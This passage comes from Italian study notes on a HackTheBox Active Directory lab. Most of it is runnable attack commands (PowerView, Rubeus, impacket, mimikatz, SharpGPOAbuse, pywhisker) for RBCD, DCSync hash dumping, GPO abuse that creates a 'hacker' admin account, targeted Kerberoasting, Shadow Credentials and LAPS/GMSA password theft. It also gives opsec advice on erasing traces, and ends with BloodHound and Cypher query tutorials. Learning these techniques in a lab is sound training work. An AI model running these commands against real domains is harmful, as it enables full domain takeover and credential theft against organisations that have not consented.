Step 2 – Ora hai GenericAll su SRV01, sfruttalo con RBCD
```
Import-Module C:\Tools\Powermad.ps1

# Crea computer account falso - con Powermad.ps1
New-MachineAccount -MachineAccount FakeComputer `
  -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force) `
  -Credential $Cred

# Ottieni SID del computer falso
$ComputerSid = Get-DomainComputer FakeComputer -Properties objectsid | 
  Select -Expand objectsid

# Modifica attributo di SRV01
$SD = New-Object Security.AccessControl.RawSecurityDescriptor `
  -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer SRV01 | Set-DomainObject `
  -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} `
  -Credential $Cred

# Ottieni ticket come Administrator su SRV01
.\Rubeus.exe s4u /user:FakeComputer$ /password:Password123! `
  /impersonateuser:Administrator `
  /msdsspn:cifs/SRV01.INLANEFREIGHT.HTB /ptt

# Accedi
.\PsExec.exe \\SRV01 cmd.exe
```

Oppure da Linux
```
# Step 1 - Aggiungi GenericAll tramite dacledit
impacket-dacledit INLANEFREIGHT.HTB/carlos:Password18 \
  -action write \
  -rights FullControl \
  -principal carlos \
  -target SRV01$ \
  -dc-ip 172.16.130.3

# Step 2 - RBCD
impacket-addcomputer INLANEFREIGHT.HTB/carlos:Password18 \
  -computer-name FakeComputer$ \
  -computer-pass Password123!

impacket-rbcd INLANEFREIGHT.HTB/carlos:Password18 \
  -action write \
  -delegate-to SRV01$ \
  -delegate-from FakeComputer$

impacket-getST INLANEFREIGHT.HTB/FakeComputer$:Password123! \
  -spn cifs/SRV01.INLANEFREIGHT.HTB \
  -impersonate Administrator

export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass SRV01.INLANEFREIGHT.HTB
```


#### WriteDacl Dominio
Stesso identico attacco che abbiamo visto con GenericAll (Domain) di Pedro — aggiungi i permessi DCSync a te stesso e dumpi tutti gli hash.



##### Come abusarlo
Step 1 – Aggiungi DCSync rights a Carlos
```
$SecPassword = ConvertTo-SecureString 'Password18' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\carlos', $SecPassword)

Add-DomainObjectAcl -TargetIdentity "DC=INLANEFREIGHT,DC=HTB" `
  -PrincipalIdentity carlos `
  -Rights DCSync `
  -Credential $Cred `
  -Verbose
```

Step 2 – Esegui DCSync

Da Linux
```
impacket-secretsdump INLANEFREIGHT.HTB/carlos:'Password18'@DC01.INLANEFREIGHT.HTB
```

Da Windows con Mimikatz
```
.\mimikatz.exe "lsadump::dcsync /domain:INLANEFREIGHT.HTB /all" "exit"
```


### WriteOwner
WriteOwner ti permette di cambiare il proprietario di un oggetto. Una volta che sei owner di un oggetto, ottieni automaticamente il diritto di modificarne la DACL — quindi è molto simile a WriteDacl ma con uno step in più.
```
WriteOwner → diventi Owner → hai WriteDacl implicito → aggiungi permessi → abusi
```



#### WriteOwner User


##### Come abusarlo
Step 1 – Diventa Owner di Juliette
```
$SecPassword = ConvertTo-SecureString 'Password20' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\indhi', $SecPassword)

Set-DomainObjectOwner -Identity juliette `
  -OwnerIdentity indhi `
  -Credential $Cred `
  -Verbose
```

Step 2 – Ora che sei Owner, aggiungi GenericAll a Indhi
```
Add-DomainObjectAcl -TargetIdentity juliette `
  -PrincipalIdentity indhi `
  -Rights All `
  -Credential $Cred `
  -Verbose
```
Step 3 – Cambia la password di Juliette
```
$NewPassword = ConvertTo-SecureString 'NuovaPassword123!' -AsPlainText -Force
Set-DomainUserPassword -Identity juliette `
  -AccountPassword $NewPassword `
  -Credential $Cred `
  -Verbose
```

#### WriteOwner Group


Come sempre con WriteOwner: prima diventi owner, poi modifichi la DACL, poi abusi.

##### Come abusarlo
Step 1 – Diventa Owner di FirewallManagers
```
$SecPassword = ConvertTo-SecureString 'Password20' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\indhi', $SecPassword)

Set-DomainObjectOwner -Identity FirewallManagers `
  -OwnerIdentity indhi `
  -Credential $Cred `
  -Verbose
```

Step 2 – Aggiungi GenericAll a Indhi su FirewallManagers
```
Add-DomainObjectAcl -TargetIdentity FirewallManagers `
  -PrincipalIdentity indhi `
  -Rights All `
  -Credential $Cred `
  -Verbose
```
Step 3 – Aggiungiti al gruppo
```
powershellAdd-DomainGroupMember -Identity FirewallManagers `
  -Members indhi `
  -Credential $Cred `
  -Verbose

# Verifica
Get-DomainGroupMember -Identity FirewallManagers -Credential $Cred
```

#### WriteOwner Computer

```
WriteOwner → diventi Owner → aggiungi GenericAll → RBCD o Shadow Credentials
```

//TODO Da testare
##### Come abusarlo
Step 1 – Diventa Owner di SRV01
```
$SecPassword = ConvertTo-SecureString 'Password20' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\indhi', $SecPassword)

Set-DomainObjectOwner -Identity SRV01 `
  -OwnerIdentity indhi `
  -Credential $Cred `
  -Verbose
```

Step 2 – Aggiungi GenericAll a Indhi su SRV01
```
Add-DomainObjectAcl -TargetIdentity SRV01 `
  -PrincipalIdentity indhi `
  -Rights All `
  -Credential $Cred `
  -Verbose
```

Step 3 – Sfrutta GenericAll con RBCD da Linux
```
# Crea computer account falso
impacket-addcomputer INLANEFREIGHT.HTB/indhi:Password20 \
  -computer-name FakeComputer$ \
  -computer-pass Password123!

# Configura RBCD
impacket-rbcd INLANEFREIGHT.HTB/indhi:Password20 \
  -action write \
  -delegate-to SRV01$ \
  -delegate-from FakeComputer$

# Ottieni ticket come Administrator
impacket-getST INLANEFREIGHT.HTB/FakeComputer$:Password123! \
  -spn cifs/SRV01.INLANEFREIGHT.HTB \
  -impersonate Administrator

# Accedi
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass SRV01.INLANEFREIGHT.HTB
```

#### WriteOwner Dominio


```
$SecPassword = ConvertTo-SecureString 'Password20' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\indhi', $SecPassword)

# Step 1 - Diventa owner del dominio
Set-DomainObjectOwner -Identity "DC=INLANEFREIGHT,DC=HTB" `
  -OwnerIdentity indhi `
  -Credential $Cred `
  -Verbose

# Step 2 - Aggiungi DCSync rights
Add-DomainObjectAcl -TargetIdentity "DC=INLANEFREIGHT,DC=HTB" `
  -PrincipalIdentity indhi `
  -Rights DCSync `
  -Credential $Cred `
  -Verbose

# Step 3 - DCSync
impacket-secretsdump INLANEFREIGHT.HTB/indhi:'Password20'@DC01.INLANEFREIGHT.HTB
```

### WriteDacl su una GPO 
Una GPO si applica a computer e utenti in una OU. Se controlli una GPO puoi modificarne il contenuto per eseguire comandi su tutti i computer/utenti che ne sono affetti.



#### Prima cosa: guarda cosa fa la GPO BACKUPS in BloodHound
```
Cerca BACKUPS → Node Info
→ Affected Objects (su quali computer/utenti si applica?)
→ più macchine colpisce, più è potente
```


//TODO Da testare
#### Come abusarlo
Step 1 – Aggiungi GenericAll a svc_backups sulla GPO
```
$SecPassword = ConvertTo-SecureString 'BackingUpSecure1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\svc_backups', $SecPassword)

Add-DomainObjectAcl -TargetIdentity "BACKUPS" `
  -PrincipalIdentity svc_backups `
  -Rights All `
  -Credential $Cred `
  -Verbose
```

Step 2 – Sfrutta il controllo sulla GPO con SharpGPOAbuse
```
# Aggiungi svc_backups come local admin su tutti i computer affetti dalla GPO
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount svc_backups --GPOName "BACKUPS"

# Oppure aggiungi uno script di avvio che esegue un comando
.\SharpGPOAbuse.exe --AddComputerScript --ScriptName evil.ps1 --ScriptContents "net user hacker Password123! /add && net localgroup administrators hacker /add" --GPOName "BACKUPS"
```

Step 3 – Forza l'aggiornamento della GPO
```
# Su una macchina affetta dalla GPO
gpupdate /force
```

Oppure da Linux con pygpoabuse
```
# Aggiungi comando da eseguire su tutti i computer affetti
pygpoabuse INLANEFREIGHT.HTB/svc_backups:BackingUpSecure1 \
  -gpo-id "<GPO_ID>" \
  -command "net user hacker Password123! /add && net localgroup administrators hacker /add" \
  -dc-ip 172.16.130.3
```

Per trovare il GPO ID:
```
Get-DomainGPO -Identity "BACKUPS" | Select displayname, name
# name è il GPO ID nel formato {XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX}
```

Perché è potente
```
BACKUPS GPO → applicata a OU con computer
  → SharpGPOAbuse aggiunge svc_backups come local admin
    → svc_backups è ora local admin su TUTTI i computer affetti
      → movimento laterale su più macchine contemporaneamente
```


### WriteOwner su una GPO


Uguale a WriteDacl su una GPO ma qui bisogna prima diventare owner della GPO (step1)

```
$SecPassword = ConvertTo-SecureString 'BackingUpSecure1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\svc_backups', $SecPassword)

# Step 1 - Diventa owner della GPO (questo manca nel WriteDacl su GPO!)
Set-DomainObjectOwner -Identity "BACKUPS" `
  -OwnerIdentity svc_backups `
  -Credential $Cred `
  -Verbose

# Step 2 - Aggiungi GenericAll
Add-DomainObjectAcl -TargetIdentity "BACKUPS" `
  -PrincipalIdentity svc_backups `
  -Rights All `
  -Credential $Cred `
  -Verbose

# Step 3 - Abusa della GPO
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount svc_backups --GPOName "BACKUPS"

# Step 4 - Forza aggiornamento
gpupdate /force
```

### GenericWrite su una GPO


```
$SecPassword = ConvertTo-SecureString 'BackingUpSecure1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\svc_backups', $SecPassword)

# Direttamente Step 1 - Abusa della GPO - Aggiungere un utente al gruppo Local Administrators su macchine scoperte
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount svc_backups --GPOName "BACKUPS"

# Step 2 - Forza aggiornamento
gpupdate /force
```

#### WriteDacl vs WriteOwner vs GenericWrite su GPO


### WriteSPN su Utente
WriteSPN ti permette di modificare l'attributo ServicePrincipalName di un utente. Questo apre la strada al Targeted Kerberoasting — aggiungi un SPN falso all'utente, richiedi il ticket Kerberos e lo cracchi offline.



BlodHound:
```
Dal nodo Indhi
Cerca indhi → Node Info → Outbound Object Control → First Degree Object Control
→ vedrai GenericWrite su nicole
```

Cypher Query:
```
MATCH p=((n {name:"INDHI@INLANEFREIGHT.HTB"})-[r:WriteSPN]->(m))
RETURN p
```
//TODO da testare

#### Come abusarlo
Step 1 – Aggiungi un SPN falso a Nicole
```
$SecPassword = ConvertTo-SecureString 'Password20' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\indhi', $SecPassword)

Set-DomainObject -Identity nicole `
  -Set @{serviceprincipalname='fake/FAKE'} `
  -Credential $Cred `
  -Verbose
```

Step 2 – Richiedi il ticket Kerberos (Kerberoasting)
```
# Da Windows
Get-DomainSPNTicket -SPN 'fake/FAKE' -Credential $Cred
bash# Da Linux
impacket-GetUserSPNs INLANEFREIGHT.HTB/indhi:Password20 \
  -dc-ip 172.16.130.3 \
  -request
```

Step 3 – Cracca l'hash offline
```
hashcat -m 13100 hash.txt rockyou.txt
```
Step 4 – Pulisci rimuovendo lo SPN
```
# Buona pratica: rimuovi lo SPN dopo aver ottenuto il ticket
Set-DomainObject -Identity nicole `
  -Clear serviceprincipalname `
  -Credential $Cred `
  -Verbose
```
> Perché rimuovere lo SPN dopo?
>
> È una buona pratica opsec — lasciare uno SPN falso su un utente è anomalo e facilmente rilevabile dai difensori. Rimuoverlo riduce le tracce dell'attacco.


### GenericWrite su Utente
Permette di modificare attributi dell'utente target, ma non la DACL. Gli attacchi principali sono:
- Targeted Kerberoasting (aggiungi SPN)
- Shadow Credentials (aggiungi KeyCredential)



//TODO Da testare

#### Attacco 1 – Targeted Kerberoasting (stesso di WriteSPN)
```
$SecPassword = ConvertTo-SecureString 'Password21' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\nicole', $SecPassword)

# Aggiungi SPN falso ad Albert
Set-DomainObject -Identity albert `
  -Set @{serviceprincipalname='fake/FAKE'} `
  -Credential $Cred `
  -Verbose

# Richiedi il ticket
Get-DomainSPNTicket -SPN 'fake/FAKE' -Credential $Cred

# Cracca offline
# hashcat -m 13100 hash.txt rockyou.txt

# Pulisci
Set-DomainObject -Identity albert `
  -Clear serviceprincipalname `
  -Credential $Cred `
  -Verbose
```

#### Attacco 2 – Shadow Credentials
```
# Da Windows con Whisker
.\Whisker.exe add /target:albert /domain:INLANEFREIGHT.HTB /dc:DC01.INLANEFREIGHT.HTB

# Whisker ti restituisce un comando Rubeus, eseguilo per ottenere il TGT
.\Rubeus.exe asktgt /user:albert /certificate:<cert> /password:<pass> /ptt
bash# Da Linux con pywhisker
python3 pywhisker.py -d INLANEFREIGHT.HTB -u nicole -p Password21 \
  --target albert \
  --action add \
  --dc-ip 172.16.130.3
```


### AddKeyCredentialLink 
Permette di aggiungere una Shadow Credential all'attributo ```msDS-KeyCredentialLink``` di un utente. In pratica aggiungi una chiave crittografica all'utente target e poi usi quella chiave per autenticarti come se fossi quell'utente, senza conoscerne la password.



#### Come abusarlo
Da Windows con Whisker
```
$SecPassword = ConvertTo-SecureString 'Password12' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\sarah', $SecPassword)

# Aggiungi shadow credential a Indhi
.\Whisker.exe add /target:indhi `
  /domain:INLANEFREIGHT.HTB `
  /dc:DC01.INLANEFREIGHT.HTB `
  /password:FakePass123!

# Whisker ti restituisce un comando Rubeus, eseguilo
.\Rubeus.exe asktgt /user:indhi `
  /certificate:<base64cert> `
  /password:FakePass123! `
  /domain:INLANEFREIGHT.HTB `
  /ptt
```

Da Linux con pywhisker
```
python3 pywhisker.py \
  -d INLANEFREIGHT.HTB \
  -u sarah \
  -p Password12 \
  --target indhi \
  --action add \
  --dc-ip 172.16.130.3

# Poi usa il certificato generato per ottenere il TGT
python3 gettgtpkinit.py \
  INLANEFREIGHT.HTB/indhi \
  -cert-pfx indhi.pfx \
  -pfx-pass <password> \
  indhi.ccache

export KRB5CCNAME=indhi.ccache
impacket-psexec -k -no-pass INLANEFREIGHT.HTB/indhi@DC01.INLANEFREIGHT.HTB
```

#### Prerequisito importante
Shadow Credentials funziona solo se il dominio ha Active Directory Certificate Services (ADCS) o supporta PKINIT (autenticazione Kerberos con certificati). Se non è configurato, l'attacco fallisce.

#### Vantaggio rispetto a ForceChangePassword
```
ForceChangePassword → cambia la password → l'utente se ne accorge subito ⚠️
AddKeyCredentialLink → aggiunge una chiave → l'utente continua ad accedere normalmente ✅
```

### Owns (User)
Owns significa che Elieser è già il proprietario dell'oggetto Nicole. È come il punto di arrivo di WriteOwner — non devi fare lo step di Set-DomainObjectOwner perché sei già owner!
```
WriteOwner → diventi owner → modifichi DACL → abusi
Owns       → sei già owner → modifichi DACL → abusi
```


#### Come abusarlo
Step 1 – Sei già owner, aggiungi GenericAll direttamente
```
$SecPassword = ConvertTo-SecureString 'Password22' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\elieser', $SecPassword)

Add-DomainObjectAcl -TargetIdentity nicole `
  -PrincipalIdentity elieser `
  -Rights All `
  -Credential $Cred `
  -Verbose
```

Step 2 – Cambia la password di Nicole
```
$NewPassword = ConvertTo-SecureString 'NuovaPassword123!' -AsPlainText -Force

Set-DomainUserPassword -Identity nicole `
  -AccountPassword $NewPassword `
  -Credential $Cred `
  -Verbose
```

> Owns e WriteDacl hanno lo stesso numero di step — la differenza è che con Owns sei già proprietario dell'oggetto, mentre con WriteDacl hai il permesso di modificare la DACL direttamente. Il risultato pratico è identico.


### AddKeyCredentialLink su Computer


//TODO da testare

#### Come abusarlo
Da Windows con Whisker
```
$SecPassword = ConvertTo-SecureString 'Password23' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\daniela', $SecPassword)

# Aggiungi shadow credential a SRV01
.\Whisker.exe add /target:SRV01$ `
  /domain:INLANEFREIGHT.HTB `
  /dc:DC01.INLANEFREIGHT.HTB `
  /password:FakePass123!

# Esegui il comando Rubeus che ti restituisce Whisker
.\Rubeus.exe asktgt /user:SRV01$ `
  /certificate:<base64cert> `
  /password:FakePass123! `
  /domain:INLANEFREIGHT.HTB `
  /ptt
```

Da Linux con pywhisker
```
python3 pywhisker.py \
  -d INLANEFREIGHT.HTB \
  -u daniela \
  -p Password23 \
  --target "SRV01$" \
  --action add \
  --dc-ip 172.16.130.3

# Ottieni TGT con il certificato
python3 gettgtpkinit.py \
  INLANEFREIGHT.HTB/SRV01$ \
  -cert-pfx SRV01.pfx \
  -pfx-pass <password> \
  SRV01.ccache

export KRB5CCNAME=SRV01.ccache
```

##### Cosa fare con il TGT del computer
Con il TGT di SRV01$ puoi fare DCSync-like attack tramite S4U2Self per impersonare qualsiasi utente su SRV01:
```
# Ottieni hash NT dell'account computer
python3 getnthash.py INLANEFREIGHT.HTB/SRV01$ \
  -key <AS-REP key>

# Usa l'hash per impersonare Administrator su SRV01
impacket-secretsdump -hashes :<NThash> "SRV01$@SRV01.INLANEFREIGHT.HTB"
```

### ReadLAPSPassword
Local Administrator Password Solution è una soluzione Microsoft che gestisce automaticamente le password dell'account local Administrator su ogni computer. Ogni macchina ha una password diversa e randomica, che viene ruotata periodicamente e salvata in AD come attributo dell'oggetto computer.
```
Senza LAPS:  tutti i PC hanno la stessa password local admin → comprometti uno, comprometti tutti
Con LAPS:    ogni PC ha password diversa → più sicuro... ma se puoi leggerla sei a posto!
```

//TODO da testare
#### Come abusarlo
Da Windows con PowerView
```
$SecPassword = ConvertTo-SecureString 'Password24' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\cherly', $SecPassword)

# Leggi la password LAPS di LAPS01
Get-DomainComputer LAPS01 -Properties ms-mcs-admpwd -Credential $Cred
```
Da Linux con impacket
```
impacket-GetLAPSPassword INLANEFREIGHT.HTB/cherly:Password24 \
  -computer-name LAPS01 \
  -dc-ip 172.16.130.3
```
Da Linux con lapsreader
```python3 lapsreader.py INLANEFREIGHT.HTB/cherly:Password24 \
  -dc-ip 172.16.130.3
```
Cosa ottieni
```
LAPS01 → ms-mcs-admpwd: P@ssw0rd!Rand0m#123
```
Questa è la password dell'account Administrator locale su LAPS01 → accesso immediato come admin sulla macchina:
```
impacket-psexec Administrator:P@ssw0rd\!Rand0m#123@LAPS01.INLANEFREIGHT.HTB
```

#### Perché è importante trovarlo



### ReadGMSAPassword
Group Managed Service Account è un tipo speciale di account AD usato per i servizi (come IIS, SQL Server, task schedulati). La password è gestita automaticamente da AD e ruotata periodicamente — simile a LAPS ma per account di servizio invece che per local admin.
```
LAPS  → gestisce password local Administrator sui computer
GMSA  → gestisce password degli account di servizio
```
#### GMSA vs LAPS




#### Come vederlo in BloodHound
```
Cerca cherly → Node Info → Outbound Object Control
→ ReadGMSAPassword su svc_devadm
```
Cypher query:
```
MATCH p=((n)-[r:ReadGMSAPassword]->(m))
RETURN p
```

#### Come abusarlo
Da Windows con PowerView
```
$SecPassword = ConvertTo-SecureString 'Password24' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\cherly', $SecPassword)

# Leggi la password GMSA di svc_devadm
$gmsa = Get-DomainObject svc_devadm `
  -Properties msDS-ManagedPassword `
  -Credential $Cred

# Converti in hash NT
$mp = $gmsa.'msds-managedpassword'
$securepass = ConvertFrom-ADManagedPasswordBlob $mp
$NTHash = ConvertTo-NTHash -Password $securepass.SecureCurrentPassword
Write-Host "NT Hash: $NTHash"
```

Da Linux con impacket
```
impacket-getManagedPassword INLANEFREIGHT.HTB/cherly:Password24 \
  -dc-ip 172.16.130.3
```
Cosa fare con la password/hash ottenuta
```
# Pass-the-Hash come svc_devadm
impacket-psexec -hashes :<NTHash> svc_devadm@DC01.INLANEFREIGHT.HTB

# Oppure se ottieni la password in chiaro
impacket-psexec INLANEFREIGHT.HTB/svc_devadm:<password>@DC01.INLANEFREIGHT.HTB
```

#### Perché è importante
Gli account GMSA spesso hanno privilegi elevati perché gestiscono servizi critici. Nel lab svc_devadm potrebbe avere accesso a server di sviluppo, database o altri sistemi sensibili.
```
Cherly → legge GMSA password di svc_devadm
  → hash/password di svc_devadm
    → accesso ai sistemi su cui svc_devadm ha privilegi
```

### AllExtendedRights (User)
AllExtendedRights ti dà accesso a tutti i diritti estesi sull'oggetto target. Su un utente i diritti estesi più importanti sono:
- ForceChangePassword → cambiare la password senza conoscere quella attuale
- ReadLAPSPassword → leggere la password LAPS se l'utente ha accesso
- ReadGMSAPassword → leggere la password GMSA

> In pratica è simile a GenericAll ma limitato ai diritti estesi — non puoi modificare la DACL come con GenericAll.



####  Come abusarlo
Metodo più diretto — Cambia la password di Elieser
```
$SecPassword = ConvertTo-SecureString 'Password26' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\elizabeth', $SecPassword)

$NewPassword = ConvertTo-SecureString 'NuovaPassword123!' -AsPlainText -Force
Set-DomainUserPassword -Identity elieser `
  -AccountPassword $NewPassword `
  -Credential $Cred `
  -Verbose
```

> AllExtendedRights è essenzialmente ForceChangePassword + altri diritti estesi, ma senza il controllo completo di GenericAll

### AddAllowedToAct
AddAllowedToAct``` ti permette di modificare l'attributo ```msDS-AllowedToActOnBehalfOfOtherIdentity``` di un computer. Questo è esattamente l'attributo che si modifica per fare RBCD (Resource-Based Constrained Delegation).
- La differenza rispetto a GenericAll su un computer è che qui hai direttamente il permesso di modificare quell'attributo specifico, senza bisogno di passare per la DACL.


- Il target è DC01 — se riesci ad impersonare un Domain Admin sul DC hai compromesso l'intero dominio!

//TODO da testare
#### Come abusarlo
Da Linux (più semplice)
```
# Step 1 - Crea un computer account falso
impacket-addcomputer INLANEFREIGHT.HTB/gil:Password28 \
  -computer-name FakeComputer$ \
  -computer-pass Password123! \
  -dc-ip 172.16.130.3

# Step 2 - Configura RBCD su DC01
impacket-rbcd INLANEFREIGHT.HTB/gil:Password28 \
  -action write \
  -delegate-to DC01$ \
  -delegate-from FakeComputer$ \
  -dc-ip 172.16.130.3

# Step 3 - Ottieni ticket come Administrator su DC01
impacket-getST INLANEFREIGHT.HTB/FakeComputer$:Password123! \
  -spn cifs/DC01.INLANEFREIGHT.HTB \
  -impersonate Administrator \
  -dc-ip 172.16.130.3

# Step 4 - Accedi al DC come Administrator
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass DC01.INLANEFREIGHT.HTB
```

Da Windows con PowerView + Rubeus
```
$SecPassword = ConvertTo-SecureString 'Password28' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\gil', $SecPassword)

# Step 1 - Crea computer account falso (serve PowerMad)
Import-Module C:\Tools\Powermad.ps1
New-MachineAccount -MachineAccount FakeComputer `
  -Password $(ConvertTo-SecureString 'Password123!' -AsPlainText -Force) `
  -Credential $Cred

# Step 2 - Ottieni SID di FakeComputer
$ComputerSid = Get-DomainComputer FakeComputer `
  -Properties objectsid | Select -Expand objectsid

# Step 3 - Modifica attributo RBCD su DC01
$SD = New-Object Security.AccessControl.RawSecurityDescriptor `
  -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer DC01 | Set-DomainObject `
  -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} `
  -Credential $Cred

# Step 4 - Ottieni ticket come Administrator
.\Rubeus.exe s4u /user:FakeComputer$ /password:Password123! `
  /impersonateuser:Administrator `
  /msdsspn:cifs/DC01.INLANEFREIGHT.HTB /ptt

# Step 5 - Accedi al DC
.\PsExec.exe \\DC01 cmd.exe
```

#### Perché DC01 è il target più prezioso
```
RBCD su computer normale (WS01, SRV01)
  → accesso come admin su quella macchina

RBCD su DC01
  → accesso come Administrator sul Domain Controller
    → controllo totale del dominio
      → dump di tutti gli hash con DCSync
        → game over
```

> Con AddAllowedToAct sei tu a scrivere chi può delegare verso DC01, mentre con AllowedToDelegate la configurazione è già sull'account attaccante. 


# Analizzare i dati in BloodHound

## Approccio top-down
Un metodo sistematico per analizzare un dominio, partendo dall'alto e scendendo nel dettaglio.
- L'analisi BloodHound non è una singola query ma un processo iterativo: parti dal dominio, scendi ai gruppi privilegiati, trovi i path, marchi i nodi compromessi e cerchi nuovi path. Ogni nodo compromesso apre nuove possibilità.
  
### Step 1 – Panoramica del dominio
```
Search bar: domain:INLANEFREIGHT.HTB
```
Ti dà subito una fotografia generale:
```
Functional Level : 2016
Users            : 34
Groups           : 60
Computers        : 7
OUs              : 6
GPOs             : 5
```

Il functional level 2016 suggerisce che probabilmente non ci sono server legacy, ma non è una certezza!


### Step 2 – Analizza Domain Users
- Cerchi Domain Users e guardi Outbound Object Control → Transitive Object Control.
- Questo è fondamentale perché ogni utente del dominio eredita i diritti di Domain Users. Anche una piccola misconfiguration su questo gruppo si propaga a tutti gli utenti.
- Per esempio, Domain Users potrebbe avere controllo transitivo su oggetti come SRV01, EVERYONE, AUTHENTICATED USERS — il che significa che qualsiasi utente del dominio ha quei privilegi.

### Step 3 – Path da Domain Users a Domain Admins
Pathfinding:
```
Start : DOMAIN USERS@INLANEFREIGHT.HTB
End   : DOMAIN ADMINS@INLANEFREIGHT.HTB
```
Se non restituisce nulla → non esiste un path diretto per tutti gli utenti :(. Buona notizia per i difensori, ma si va avanti con analisi più specifiche.

### Step 4 – Chi sono i Domain Admins?
Cerchi Domain Admins e guardi i membri:
```
Domain Admins
├── DAVID        (diretto)
├── JULIO        (diretto)
├── ADMINISTRATOR (diretto)
└── ITSECURITY   (gruppo)
      └── PETER  (membro del gruppo → DA per nested membership)
```
Peter è Domain Admin indirettamente tramite nested group — facile da non notare senza BloodHound!


### Step 5 – Shortest Paths to Domain Admins
Questa query pre-built (la si trova già in BloodHound) è una delle più importanti.
- Tutti path che portano a Domain Admin senza essere DA direttamente.

### Finding Sessions
Le sessioni sono visibili nel Node Info dei nodi. Per esempio:
```
Domain Admins → 1 sessione
  └── JULIO è connesso a DC01
```
Questo significa: se comprometti DC01 in quel momento, puoi rubare le credenziali di JULIO che è Domain Admin.

### Owned Principals — La funzione più utile per il Red Team
Il workflow è:
1. Comprometti un utente/computer
2. Tasto destro → "Mark as Owned" (appare icona del teschio)
3. Analysis → "Shortest Path from Owned Principals"
4. BloodHound ti mostra dove puoi arrivare da lì

### Pre-built Queries più utili



# Cypher Queries
## Cos'è Cypher?
È il linguaggio di query di Neo4j, il database a grafo usato da BloodHound. Simile a SQL ma ottimizzato per lavorare con nodi e relazioni invece che con tabelle.

## Attributi Cypher

> Adoro quest'immagine fatta dal team di HTB!



## Keywords Principali



## Query

### Neo4j Query vs BloodHound Query


### Cypher query per restituire tutti gli utenti
```
MATCH (u:User) RETURN u
```

### Cypher query per restituire l'utente peter
```
MATCH (u:User {name:"PETER@INLANEFREIGHT.HTB"}) RETURN u
```
La query usa `MATCH` per trovare l'utente con la proprietà `name` uguale a `PETER@INLANEFREIGHT.HTB` e lo restituisce.

Oppure si può trovare la stessa cosa, facendo:
```
MATCH (u:User) WHERE u.name = "PETER@INLANEFREIGHT.HTB" RETURN u
```

### Cypher query per restituire i gruppi a cui fa parte peter
```
MATCH (u:User {name:"PETER@INLANEFREIGHT.HTB"})-[r:MemberOf]->(peterGroups) 
RETURN peterGroups
```
La query usa `MATCH` per trovare l'utente con la proprietà `name` uguale a `PETER@INLANEFREIGHT.HTB` con relazione `MemberOf` e li salva nella variabile di nome `peterGroups` e la restituisce.


#### Si possono anche restituire tutte le variabili n,r,g
```
MATCH (n:User {name:"PETER@INLANEFREIGHT.HTB"})-[r:MemberOf]->(g:Group) 
RETURN n,r,g
```
Come prima, ma invece di reare una nuova variabile, si restituiscono tutte le variabili "primitive".
- In Neo4j, se si preme poi "Graph" si può vedere anche il grafo del risultato!

#### In BloodHound si deve creare una variabile "p" se si vuole avere il grafo!
BloodHound usa Neo4j come database sottostante, quindi le query Cypher sono identiche.



```
MATCH p=((n:User {name:"PETER@INLANEFREIGHT.HTB"})-[r:MemberOf]->(g:Group)) 
RETURN p
```

```p=``` non è obbligatorio — lo usi solo quando vuoi vedere il path visivamente nel grafo. Per estrarre informazioni specifiche come nomi, proprietà, conteggi, lavori direttamente sui nodi senza assegnare il path.

## Altre Query perchè siamo hackerinə :D
### Restituire la relazioni "MemberOf" di Peter
```
MATCH p=((u:User {name:"PETER@INLANEFREIGHT.HTB"})-[r:MemberOf*1..]->(g:Group)) 
RETURN p
```


- Si assignano 2 variabili, `u` e `g` a `User` e `Group` e si dice a BloodHound di trovare nodi che matchano la relazione `MemberOf`.
- `*1..`:  significa minimo 1 hop, massimo infinito. Quindi trova anche i gruppi dei gruppi dei gruppi...
  - È possibile usare un numero al posto di `*` per limitare la profondità. Ad esempio, `*1..2` indica che il percorso deve avere una profondità minima di `1` e massima di `2`, quindi attraversare una o due relazioni `MemberOf`. Tipo `MATCH p=(n:User)-[r1:MemberOf*1..2]->(g:Group)`
- Il risultato è assegnato alla variabile `p` e viene restituito.

### Trovare un path dove il nome del primo gruppo contiene "ITSECURITY"
```
MATCH p=(n:User)-[r1:MemberOf*1..]->(g:Group)
WHERE nodes(p)[1].name CONTAINS 'ITSECURITY'
RETURN p
